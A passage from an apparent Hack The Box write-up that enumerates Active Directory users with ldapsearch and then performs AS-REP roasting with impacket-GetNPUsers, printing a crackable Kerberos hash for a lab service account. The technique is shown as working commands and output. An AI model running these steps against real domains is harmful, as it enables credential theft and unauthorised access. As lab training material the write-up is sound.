 Another way to enumerate users would be with [ldapsearch](https://linux.die.net/man/1/ldapsearch) and the LDAP (TCP/389) port.

```bash
$ ldapsearch -x -b "dc=htb,dc=local" "*" -H ldap://10.129.110.245 | grep userPrincipalName

...[snip]...

userPrincipalName: sebastien@htb.local
userPrincipalName: santi@htb.local
userPrincipalName: lucinda@htb.local
userPrincipalName: andy@htb.local
userPrincipalName: mark@htb.local
```

`ldapsearch` is a really nice tool to open a connection to an LDAP server and performs targeted searches.

# Initial Access

Now, we do have a list of valid usernames and we could perform different [brute force](https://attack.mitre.org/techniques/T1110/) attacks against these accounts. However, it could be time consuming and we don't have any information about the domain's password policy and lockout threshold. Let's stay on the safe side for now, there is an attack called [AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat) which could be used against the users.

## ASREPRoast

As a reminder, AS-REP roasting is a technique that allows retrieving password hashes for users that have the **"Do not require Kerberos preauthentication"** property selected. Indeed, if a user does not have Kerberos pre-authentication enabled, an AS-REP can be requested for that user, and part of the reply can be cracked offline to recover their plaintext password.

One of the best tools for the job would be [impacket-GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py), which can list and get TGTs for the users that have the property set to **UF_DONT_REQUIRE_PREAUTH**, it should already be installed on Kali. Note that the **user.txt** file contains the list of the previously recovered account.

```bash
$ impacket-GetNPUsers htb.local/ -usersfile user.txt -dc-ip 10.129.95.210  
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:617958fe87802133461a4ead4b697b5d$d999599f5812fc7e7b80db85e55cff57cd6a2091b84f97300d97d9faf09cc184c0a7e51cdd0b11bd21ac4423876c97bcf4f5b934f85cde4af8e2fc81d33988297de7ee195d1c6582b9ff202497f9e580ea709d524de279fad1b81f318fe473acf5e505db0c550d026d64b4bfe011eccc0d6d19f2dd894608a0db3ddb4941d71fccb9043da894a7ab579b3f5fc7b6972daa0d25e732c192281fd2fc2987f0f9059d7f777e76ecbff880e4ecc1044b190f829f1b3a90e0a85dee92008da27dcda65d77df67990cfc81b1ae3fda2f8722ba3aa7f6291ad2cd49db59f47bb6bdd7ab690833c9666a
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
